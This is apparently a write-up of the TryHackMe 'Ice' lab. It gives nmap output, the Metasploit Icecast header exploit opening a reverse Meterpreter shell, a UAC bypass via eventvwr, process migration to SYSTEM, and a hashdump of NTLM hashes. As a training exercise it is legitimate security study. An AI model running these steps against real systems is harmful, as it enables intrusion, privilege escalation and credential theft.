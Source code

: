 ###### Deploy & hack into a Windows machine, exploiting a very poorly secured media server.
Room: https://tryhackme.com/room/ice
##

**sudo** nmap -sV -sS -T5 -vv xx.xx.xx.xxx   
```
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped   syn-ack ttl 127
5357/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  http         syn-ack ttl 127 Icecast streaming media server
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49160/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

As we can see, the media server is running on port 8000.   

After a quick look in metasploit, we have found a potentially exploit for our target.  


**search** icecast
```
Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite

```
After setting up the required options (**show options**), we hit **run** and we get a meterpreter session.  

```
[*] Started reverse TCP handler on xx.x.x.xxx:4444 
[*] Sending stage (175174 bytes) to xx.xx.xx.xxx
[*] Meterpreter session 1 opened (xx.x.x.xxx:4444 -> xx.xx.xx.xxx:49188) at 2021-10-10 20:45:13 +0300
```

meterpreter > run post/multi/recon/local_exploit_suggester 
**CTRL+Z**

**use** exploit/windows/local/bypassuac_eventvwr
* set the session to the ID of the previously opened meterpreter session, most likely 1.
* use a different port.  

```
[*] Started reverse TCP handler on xx.x.x.xxx:4445 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175174 bytes) to xx.xx.xx.xxx
[*] Meterpreter session 2 opened (xx.x.x.xxx:4445 -> xx.xx.xx.xxx:49208) at 2021-10-10 21:00:31 +0300
[*] Cleaning up registry keys ...
```

Now, if we check our privileges using **getprivs** we see that we have some elevated privileges.   
**Privileges from the first meterpreter shell**
``` 
Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

**Privileges from the second meterpreter shell**

```
Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

The **SeTakeOwnershipPrivilege** allows us to take ownership of the files on the system.  

In order to be able to exploit the **lsass** service:  
* We need to be on the same architecture as the process.
* We need to live in a process that has the same permissions as lsass.  

LSASS is the service responsible for authentication within Windows.  

If we look at the processes using **ps**: 
* We can migrate to process **spoolsv.exe** since it has the same privileges & architecture.  

```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2656 to 1368...
[*] Migration completed successfully.
```
**meterpreter > getuid**  
> Server username: NT AUTHORITY\SYSTEM

**hashdump output**
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```


